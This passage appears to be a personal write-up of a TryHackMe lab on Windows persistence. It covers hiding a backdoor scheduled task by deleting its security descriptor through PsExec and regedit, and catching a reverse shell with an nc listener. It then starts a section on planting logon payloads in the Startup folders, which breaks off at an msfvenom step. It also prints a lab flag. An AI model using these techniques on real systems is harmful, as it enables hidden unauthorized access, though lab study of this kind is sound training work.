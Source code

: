 ```shell-session
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:

![Task Scheduler SD](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9a6dad473b19be313e3069da0a2fc937.png)

If we try to query our service again, the system will tell us there is no such task:

```shell-session
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:


```shell-session
user@AttackBox$ nc -lvp 4449
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)


Use the reverse shell obtained through the task scheduler and execute `C:\flags\flag9.exe` to retrieve a flag.


Once we did all steps, we get a shell:

![](../images/Pasted%20image%2020250515165131.png)

```
C:\flags>.\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```


# Logon Triggered Persistence
---

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

## Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

